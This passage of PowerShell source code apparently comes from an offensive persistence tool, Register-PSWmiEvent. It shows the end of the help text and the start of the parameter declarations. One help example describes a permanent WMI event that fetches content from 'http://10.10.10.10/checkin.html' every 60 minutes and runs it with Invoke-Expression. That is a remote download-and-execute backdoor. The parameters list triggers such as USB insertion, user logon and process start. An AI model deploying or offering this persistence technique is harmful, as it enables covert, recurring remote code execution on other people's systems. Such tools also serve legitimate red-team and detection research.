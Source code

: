 
This command creates a permanent WMI event that will perform Invoke-Expression on whatever is returned after a GET request to 'http://10.10.10.10/checkin.html' every 60 minutes.

.EXAMPLE

PS C:\>Register-PSWmiEvent -EventName ExecuteSystemCheck -PermanentScript $script -Trigger Timed -ExecutionTime '07/07/2016 12:30pm'


This command creates a permanent WMI event execute a specified script at '07/07/2016 12:30pm'

.OUTPUTS

System.Management.ManagementBaseObject.ManagementObject

By default, this cmdlet returns a System.Management.ManagementBaseObject.ManagementObject.

#>

    Param (
        
        [String]
        $ComputerName,

        [Management.Automation.PSCredential]
        $Credential,

        [Parameter(ParameterSetName = 'LocalUserLogonSet')]
        [Parameter(ParameterSetName = 'CommandUserLogonSet')]
        [Parameter(ParameterSetName = 'ScriptUserLogonSet')]
        [String]
        [ValidateNotNullOrEmpty()]
        $Domain,

        [Parameter(Mandatory = $True, ParameterSetName = 'CommandInsertUSBSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'CommandUserLogonSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'CommandTimedSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'CommandIntervalSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'CommandProcessStartSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'LocalInsertUSBSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'LocalUserLogonSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'LocalTimedSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'LocalIntervalSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'LocalProcessStartSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'ScriptInsertUSBSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'ScriptUserLogonSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'ScriptTimedSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'ScriptIntervalSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'ScriptProcessStartSet')]
        [String]
        [ValidateNotNullOrEmpty()]
        $EventName,
        
        [Parameter(Mandatory = $True, ParameterSetName = 'CommandTimedSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'LocalTimedSet')]
        [Parameter(Mandatory = $True, ParameterSetName = 'ScriptTimedSet')]
        [Datetime]
        [ValidateNotNullOrEmpty()]
        $ExecutionTime,

